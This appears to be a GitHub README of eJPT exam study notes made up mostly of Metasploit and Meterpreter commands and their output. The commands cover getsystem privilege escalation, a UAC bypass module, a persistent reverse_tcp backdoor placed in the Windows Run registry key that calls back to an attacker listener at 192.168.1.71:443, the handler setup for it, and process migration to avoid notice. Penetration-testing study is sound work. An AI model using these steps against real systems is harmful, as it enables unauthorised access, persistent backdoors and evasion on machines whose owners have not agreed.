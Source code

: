 # eJPT
Some helps to pass eJPT

# Footprinting & Scanning

## NMAP


# Metasploit
Start metasploit with

```
$ msfconsole
```
# Meterpreter
## Privileges Escalation
On windows machine
```
meterpreter> getsystem
```
if doesn't work, probably windows has UserControlAccess enabled,so:
```
meterpreter> run post/windows/gather/win_privs
```
look if is true, and then
```
meterpreter> background
msf exploit(handler)> search uac
```
```
msf exploit(handler)> use exploit/windows/local/bypassuac
msf exploit(handler)> sessions
msf exploit(handler)> set SESSION <n>
msf exploit(handler)> exploit
meterpreter> getsystem
```
## Persistence
```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```
We will configure our persistent Meterpreter session to wait until a user logs on to the remote system and try to connect back to our listener every 5 seconds at IP address 192.168.1.71 on port 443.
```
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
[*] Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
[*] Persistent agent script is 613976 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
[*] Agent executed with PID 492
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```
To verify that it works, we reboot the remote system and set up our payload handler.
```
meterpreter > reboot
Rebooting...
meterpreter > exit

[*] Meterpreter session 3 closed.  Reason: User exit
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.71:443
[*] Starting the payload handler...
```
## Migrate PID to another PID to look less sus
```
meterpreter> getpid
meterpreter> ps -U SYSTEM //process with system privilege, choose one
meterpreter> migrate PID
```
